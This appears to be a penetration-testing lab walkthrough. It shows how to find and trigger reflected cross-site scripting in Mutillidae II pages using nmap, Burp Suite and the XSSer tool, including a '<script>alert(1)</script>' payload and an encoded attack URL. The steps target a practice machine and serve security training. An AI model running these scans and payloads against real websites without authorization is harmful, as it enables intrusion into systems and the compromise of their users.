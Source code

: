 ﻿r![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">XSS Attack with XSSer </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1889> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Start the terminal and check the IP address of the machine. **Command:** ip addr 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.003.jpeg)

The IP address of the attacker machine is 192.94.37.2, the target machine will be located at IP address 192.94.37.3 

**Step 2:** Run a Nmap scan against the target IP. **Command:** nmap -sS -sV 192.94.37.3 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.004.png)

Port 80 and 3306 are open.**  

**Step 3:** Access the web application using firefox.  **Command:** firefox http://192.94.37.3 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.005.jpeg)

**Step 4:** Navigate to the XSS DNS lookup webpage. **URL:** http://192.94.37.3/index.php?page=dns-lookup.php 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.006.jpeg)

**Step 5:** Enter  any text to “**Hostname/IP**” textfield and click on "Lookup DNS"  

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.007.png)

The entered value is reflected back on the web page.  **Step 6:** Check the usage of xsser.  

**Command:** xsser --help 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.008.jpeg)

**Step 7:** Configure firefox to use burp suite proxy. 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.009.png)

**Step 8:** Start burp suite. ![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.010.jpeg)

**Step 9:**  Enter  any text to “**Hostname/IP**” textfield and click on "Lookup DNS". The request will be intercepted by burp suite. 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.011.jpeg)

**Step 10:** Pass the URL to XSSER. Replace “**HelloWorld**” with “**XSS”**, this is done so that XSSer will substitute payload in place of "XSS" string. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.012.jpeg)

The output confirms that the target is vulnerable.  

**Step 11:** Trying various XSS payloads by using XSSer's  “--auto” option. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.013.jpeg)

**Step 12:** Using custom XSS payload. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>" 

![ref2]

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.015.png)

The encoded XSS payload is generated.  

**Step 13:** In Burp Suite, replace the POST parameters with the final attack payload and forward the request. 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.016.jpeg)

The XSS payload will be triggered. 

![ref2]
![ref1]

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.017.jpeg)

. 

**Step 14:** Performing XSS attack over GET request. Navigate to the **Poll Question** webpage. 

**URL:** http://192.94.37.3/index.php?page=user-poll.php 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.018.jpeg)

**Step 15:** Enter any value and submit the vote. 

![ref2]

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.019.png)

The value nmap is reflected on the web page 

**Step 16:** Copy the URL, replace the nmap value with "XSS" and pass it to XSSer 

**URL:** http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=**nmap**&initials=jd&user-p oll-php-submit-button=Submit+Vote 

**Command:** xsser --url “http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=**XSS**&initials=jd&user-po ll-php-submit-button=Submit+Vote” 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.020.jpeg)

![ref2]
![ref1]

**Step 17:** Providing basic XSS payload to XSSer 

**Command:** xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-po ll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>" 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.021.jpeg)

**Step 18:** Open the final attack link to trigger the XSS vulnerability in firefox browser. 

**URL:** http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281 %29%3C%2Fscript%3E&initials=jd&user-poll-php-submit-button=Submit+Vote 

![](Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.022.jpeg)

**References** 

1. Burp Suite (<https://portswigger.net/burp>) 
1. Mutillidae II (<https://sourceforge.net/projects/mutillidae/>) 
1. XSSer Tool (<https://github.com/epsylon/xsser>) 
![ref2]

[ref1]: Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.002.png
[ref2]: Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.014.png
